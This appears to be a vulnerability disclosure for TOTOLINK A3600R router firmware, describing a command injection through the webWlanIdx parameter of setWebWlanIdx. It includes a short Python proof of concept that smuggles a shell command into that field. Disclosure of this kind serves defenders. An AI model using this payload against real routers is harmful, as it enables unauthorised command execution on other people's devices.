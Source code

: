 ## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=63&ids=36

## Affected version

A3600R V4.1.2cu.5182_B20201102

## Vulnerability details

In the A3600R V4.1.2cu.5182_B20201102 firmware has a command injection vulnerability in the `setWebWlanIdx` function. The `v5` variable receives the `webWlanIdx` parameter from a POST request. However, since the user can control the input of `webWlanIdx`, the `CsteSystem` can cause a command injection vulnerability.

![image-20240721015317125](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240721015317125.png)

## POC

```python
/import requests
url = "http://127.0.0.1/cgi-bin/cstecgi.cgi"
cookie = {"Cookie":"SESSION_ID=2:1721039211:2"}
data = {"webWlanIdx":";ls -al ../ ;","topicurl":"setting/setWebWlanIdx"}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
print(response)
```

![image-20240721213628055](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240721213628055.png)
